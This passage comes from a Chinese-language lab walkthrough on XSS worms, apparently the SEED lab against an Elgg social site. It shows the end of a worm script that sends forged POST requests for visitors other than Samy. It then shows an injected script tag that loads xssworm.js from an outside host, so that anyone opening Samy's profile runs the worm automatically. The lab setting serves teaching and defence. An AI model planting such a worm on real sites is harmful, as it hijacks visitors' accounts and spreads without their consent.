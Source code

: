 ```javascript
    if(elgg.session.user.guid!=samyGuid)
    {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
```

与前面的脚本类似，这里不多做赘述。

使用浏览访问 http://www.example32.com/xssworm.js 验证一下：

![6-8](../image/6-8.png)

这里显示了攻击脚本的 js 代码。

接下来我们还原一下上一个实验被影响的 Samy，Alice 和 Boby 的账号。

用 Samy 注入如下攻击代码： 

```html
<script type="text/javascript" id="worm" 
	src="http://www.example32.com/xssworm.js"> 
</script>
```

这样只要有人点进了 Samy 的主页，网页会自动下载 `xssworm.js` 并执行。
